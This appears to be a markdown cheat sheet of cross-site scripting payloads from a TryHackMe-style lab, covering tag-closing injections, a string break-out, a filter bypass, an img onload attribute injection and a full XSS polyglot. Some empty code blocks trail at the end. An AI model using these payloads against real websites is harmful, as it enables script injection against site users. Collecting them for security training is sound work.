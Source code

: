 

```javascript
<script>alert('THM');</script> 
```

`// Checking for XSS Vulnerability`



```javascript
"><script>alert('THM');</script>
```
` // Closing a tag before injecting payload`
```javascript
</textarea><script>alert('THM');</script> 
```
`// Closing a tag before injecting payload`

---
```javascript
';alert('THM');//

```

**NOTE**

The `'` closes the field specifying the name, then `;` signifies the end of the current command, and the `//` at the end makes anything after it a comment rather than executable code.

---

```javascript
<sscriptcript>alert('THM');</sscriptcript>
```
`Bypassing the filter`
```javascript
/images/cat.jpg" onload="alert('THM');
```
`Taking advantage of the onload="" attribute of the <img> tag`

### Polyglots

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. 
```javascript
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
[Ultimate XSS Polygot](https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot)

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```

```javascript

```
